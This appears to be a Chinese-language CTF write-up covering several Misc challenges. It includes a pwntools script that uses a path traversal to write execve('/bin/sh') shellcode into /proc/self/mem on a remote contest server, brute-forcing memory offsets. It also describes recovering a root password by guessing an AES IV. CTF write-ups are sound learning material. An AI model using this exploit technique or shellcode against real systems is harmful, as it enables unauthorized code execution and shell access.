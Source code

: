 
## Misc [AK]

### reindeer game
pyinstaller解包，直接调pyc里生成flag的函数：
![picture 1](../../assets/a1ecafabcadcb41aaea235af580c7f3b1f7707b100d32984ee97bfa4b0ec1edb.png)  

### 楠之勇者传
轻松拿到魔法棒，然后按提示去 `/proc/self/mem` 找地方写sc  
自己开了个环境看一下nobody跑的python36居然是没随机化地址的，然后本地偏移通了远程不过（版本是一样的）  
于是远程先按`0x1000`加偏移，卡死了就逐byte加，然后就成功执行到了shellcode  
```python
from pwn import *

for off in range(3, 0x100):
    p = remote("39.106.48.123", 28287)
    context.log_level = 'debug'
    p.sendline(b"1")
    p.sendlineafter(b">> ", b"1")
    for _ in range(10):
        p.sendlineafter(b">> ", b"4")
        p.sendlineafter(b"Enter", b"")
    p.sendlineafter(b">> ", b"3")
    p.sendlineafter(b">> ", b"1")
    p.sendline(b"a")
    p.sendlineafter(b"Enter", b"")
    p.sendlineafter(b">> ", b"2")
    p.sendlineafter(b">> ", b"1")
    p.sendline(b"../proc/self/mem")
    p.sendline(str(0x5b9a10+off).encode())
    p.sendline(base64.b64encode(b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'))
    p.interactive()
```

### 问卷
问卷

### nan's analysis
图片..没什么用  
压缩包，有密码，但其实就是删了root密码的shell，带回车..也没什么用   
唯一有用的是FTP的密码，是AES的key  
iv猜了好久，最后用UTF8的16个0搞出来看起来很对的字符，但长度不对  
然后用0504重复4次做IV得到了正确的root密码   
